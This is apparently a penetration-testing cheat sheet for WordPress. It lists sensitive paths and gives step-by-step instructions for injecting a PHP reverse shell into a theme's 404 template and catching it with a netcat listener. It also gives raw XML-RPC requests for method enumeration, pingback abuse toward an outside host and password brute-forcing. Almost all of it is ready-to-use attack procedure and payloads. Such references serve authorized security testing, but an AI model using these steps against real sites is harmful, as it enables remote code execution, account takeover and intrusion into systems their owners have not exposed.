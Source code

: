 ```yaml
---
title: WordPress Pentesting
desc: Penetration testing on WordPress.
tags: [CMS, Web, WordPress]
alts: [Wpscan]
website:
render_with_liquid: false
---
```


## Directories

```
/author/admin/
/index.php/author/admin/
/license.txt
/readme.html
/wp-admin/
/wp-admin/upload.php
```

<br />

## Reverse Shell Injection (login required)

```
1. Access to dashboard (/wp-admin/).
2. Move to "Appearance" and select theme named "Twenty Seventeen".
3. Click "Theme Editor" or "Editor" in the "Appearance" section.
4. In the theme editor, click "404 Template (404.php)" on the right.
5. Copy and paste the code for Reverse Shell (https://github.com/pentestmonkey/php-reverse-shell).
6. Edit "IP" and "Port" in the code.
7. In your terminal, run 'nc -lvnp <IP>'.
8. Browse https://vulnerable.com/wp-content/themes/twentyseventeen/404.php
```

<br />

## XML-RPC (xmlrpc.php)

### 1. Get all methods

```xml
POST /xmlrpc.php HTTP/1.1
Host: vulnerable.com
...

<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>
```

### 2. Ping back

```xml
POST /xmlrpc.php HTTP/1.1
Host: vulnerable.com
...

<?xml version="1.0" encoding="utf-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param><value><string>https://www.toptal.com/developers/postbin/xxxxxxxxxxxxx-xxxxxxxxxxxxx</string></value></param>
<param><value><string>http://vulnerable.com</string></value></param>
</params>
</methodCall>
```

### 3. Brute force users

It is recommended to use Burp Intruder.

```xml
POST /xmlrpc.php HTTP/1.1
Host: vulnerable.com
...

<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>username</value></param> 
<param><value>$password$</value></param> 
</params> 
</methodCall>
```